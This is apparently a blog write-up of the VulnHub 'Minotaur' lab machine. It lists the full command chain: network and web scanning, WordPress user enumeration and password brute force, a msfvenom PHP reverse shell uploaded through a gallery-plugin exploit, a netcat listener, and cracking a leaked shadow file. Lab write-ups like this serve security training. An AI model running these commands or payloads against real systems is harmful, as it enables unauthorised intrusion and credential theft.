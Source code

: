 ```yaml
---
layout: post
title: "SecTalks: BNE0x00 - Minotaur"
date: 2016-04-26 14:27:14 -0400
comments: true
categories: [vulhub]
---
```



From [Vulhub](https://www.vulnhub.com/entry/sectalks-bne0x00-minotaur,139/)

###Forces:

* netdiscover
* Nmap
* Wfuzz
* WPscan
* msfvenom
* John the Ripper


<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/bne03/Selection_001.png   [title manually exploit [alt text]] %}

192.168.56.223 is the target.


Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.56.223 -p-`

{% img  /images/blog/vulhub/bne03/Selection_002.png   [title manually exploit [alt text]] %}

port 22, 80 and 2020 are opening.

use wfuzz to find more locations

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.56.223/FUZZ 2>/dev/null`


{% img  /images/blog/vulhub/bne03/Selection_003.png   [title manually exploit [alt text]] %}

found http://192.168.56.223/bull/

Check the page, looks like it uses wordpress. Good. maybe I can find out some outdated wordpress plugins.

{% img  /images/blog/vulhub/bne03/Selection_004.png   [title manually exploit [alt text]] %}

I use wpscan to find wordpress plugins vulnerabilities.

`uby wpscan.rb --url http://192.168.56.223/bull/`

get some xss vulnerabilities and an interestig arbutrart file upload vulnerability.

{% img  /images/blog/vulhub/bne03/Selection_005.png   [title manually exploit [alt text]] %}

next step, user enumeration.

`ruby wpscan.rb --url http://192.168.56.223/bull/ --enumerate u`

{% img  /images/blog/vulhub/bne03/Selection_006.png   [title manually exploit [alt text]] %}

get a user name `bully`


next step, password guessing:

`ruby wpscan.rb --url http://192.168.56.223/bull/ --wordlist SecLists/Passwords/passwords_john.txt threads 50`

no luck this time. Let's try harder..

we use cewl this time to generate password file

`cewl -w password.txt http://192.168.56.223/bull/`

also john the ripper should be used to mutate the password file:

`john --wordlist=password.txt --rules --stdout > out.txt`

now I use wpscan to brute force the password:

`wpscan --url 192.168.56.223/bull --wordlist out.txt --username bully`

{% img  /images/blog/vulhub/bne03/Selection_007.png   [title manually exploit [alt text]] %}


Now, create php reverse shell:

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.223 -a php --platform php -o evil.php`

based one wpscan scan result, the wordpress slideshow gallery shell upload exploit(https://www.exploit-db.com/exploits/34681/) is found. Save it as `wp_gallery.py`

run:

`python wp_gallery.py -t http://192.168.56.223/bull -u bully -p Bighornedbulls -f evil.php`


{% img  /images/blog/vulhub/bne03/Selection_008.png   [title manually exploit [alt text]] %}

set netcat 
`nc -nlvp 1234`

visit `http://192.168.56.223/bull/wp-content/uploads/slideshow-gallery/evil.php`

get the meterpreter

{% img  /images/blog/vulhub/bne03/Selection_009.png   [title manually exploit [alt text]] %}

locate flag.txt and get the result `/tmp/flag.txt`

find a file shadow.bak in /tmp, I got some interesting things:

{% img  /images/blog/vulhub/bne03/Selection_011.png   [title manually exploit [alt text]] %}

Looks like there are more chances to me. Download this file and use john to crack more.

`john --fork=4 shadow.bak`

now I have two more accounts info

{% img  /images/blog/vulhub/bne03/Selection_012.png   [title manually exploit [alt text]] %}

use python `python -c 'import pty; pty.spawn("/bin/bash")'`

Login as heffer:

{% img  /images/blog/vulhub/bne03/Selection_013.png   [title manually exploit [alt text]] %}

Login as minotaur:

{% img  /images/blog/vulhub/bne03/Selection_014.png   [title manually exploit [alt text]] %}


DONE.








